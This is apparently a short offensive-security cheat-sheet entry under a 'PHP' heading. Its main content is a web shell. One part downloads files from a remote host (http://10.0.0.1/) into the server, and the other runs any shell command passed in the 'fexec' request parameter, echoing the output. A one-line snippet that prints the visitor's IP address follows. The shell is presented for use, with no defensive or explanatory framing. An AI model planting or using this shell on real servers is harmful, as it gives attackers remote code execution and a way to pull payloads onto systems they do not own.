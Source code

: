 ## PHP

### File upload and command execution
```
<?php if (isset($_REQUEST['fupload'])) {
	file_put_contents($_REQUEST['fupload'],
	file_get_contents("http://10.0.0.1/" . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
	echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
} ?>
```

### IP Address
`<?php echo $_SERVER["REMOTE_ADDR"];`

